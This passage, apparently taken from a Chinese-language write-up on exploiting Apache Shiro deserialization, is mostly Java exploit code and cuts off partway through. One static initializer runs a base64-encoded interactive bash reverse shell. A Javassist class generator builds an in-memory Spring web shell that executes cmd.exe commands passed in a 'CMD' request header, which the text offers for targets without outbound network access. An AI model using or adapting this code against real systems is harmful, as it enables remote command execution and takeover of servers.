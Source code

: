 ```java
    }

    static {
        try {
            Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2MDcMC85MDAxIDA+JjE=}|{base64,-d}|{bash,-i}");
           //Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}

```

### 2、不出网利用方式

上文说到利用条件需要传入Cookie的字符串需要小于大约3500个字符，可使用下方方式：

首先`DynamicClassGenerator`用来生成恶意`class`，针对不同系统使用不同的方法即可。

```java
package ysoserial.shiropoc;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtNewConstructor;
import javassist.NotFoundException;

import java.io.IOException;

public class DynamicClassGenerator {
    public CtClass genPayloadForWin() throws NotFoundException, CannotCompileException, IOException {
        ClassPool classPool = ClassPool.getDefault();
        CtClass clazz = classPool.makeClass("Exp");

        if ((clazz.getDeclaredConstructors()).length != 0) {
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);
        }
        clazz.addConstructor(CtNewConstructor.make("public SpringEcho() throws Exception {\n" +
            "            try {\n" +
            "                org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();\n" +
            "                javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();\n" +
            "                javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();\n" +
            "\n" +
            "                String te = httprequest.getHeader(\"Host\");\n" +
            "                httpresponse.addHeader(\"Host\", te);\n" +
            "                String tc = httprequest.getHeader(\"CMD\");\n" +
            "                if (tc != null && !tc.isEmpty()) {\n" +
            "                    String[] cmd = new String[]{\"cmd.exe\", \"/c\", tc};  \n" +
            "                    byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter(\"\\\\A\").next().getBytes();\n" +
            "                    httpresponse.getWriter().write(new String(result));\n" +
            "\n" +
            "                }\n" +
            "                httpresponse.getWriter().flush();\n" +
            "                httpresponse.getWriter().close();\n" +
            "            } catch (Exception e) {\n" +
```